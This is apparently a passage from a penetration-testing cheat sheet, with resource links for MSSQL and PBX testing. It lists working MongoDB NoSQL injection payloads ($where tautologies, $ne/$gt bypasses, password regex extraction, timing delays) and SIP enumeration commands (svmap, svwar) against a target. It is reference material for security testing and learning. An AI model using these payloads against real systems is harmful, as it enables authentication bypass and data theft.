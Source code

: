 ##### MSSQL

> ###### Resources

[PenTest & Hack MSSQL](http://travisaltman.com/pen-test-and-hack-microsoft-sql-server-mssql/)

[SQL Injection Cheatsheet MSSQL](https://www.gracefulsecurity.com/sql-injection-cheat-sheet-mssql/)

##### MongoDB

> ###### Resources

[NoSQL Map](https://github.com/codingo/NoSQLMap)

> ###### Examples

```
true, $where: '1 == 1'
, $where: '1 == 1'
$where: '1 == 1'
', $where: '1 == 1'
1, $where: '1 == 1'
{ $ne: 1 }
', $or: [ {}, { 'a':'a
' } ], $comment:'successful MongoDB injection'
db.injection.insert({success:1});
db.injection.insert({success:1});return 1;db.stores.mapReduce(function() { { emit(1,1
|| 1==1
' && this.password.match(/.*/)//+%00
' && this.passwordzz.match(/.*/)//+%00
'%20%26%26%20this.password.match(/.*/)//+%00
'%20%26%26%20this.passwordzz.match(/.*/)//+%00
{$gt: ''}
[$ne]=1
';sleep(5000);
';it=new%20Date();do{pt=new%20Date();}while(pt-it<5000);
```

## PBX

**Resources**

[Pentesting VOIP](https://www.backtrack-linux.org/wiki/index.php/Pentesting_VOIP)

[Introduction to Telephony and PBX](http://phrack.org/issues/49/5.html#article)

##### Examples

```
Kali> svmap $TARGET
Kali> svwar -m INVITE -eSTART-END $TARGET
```



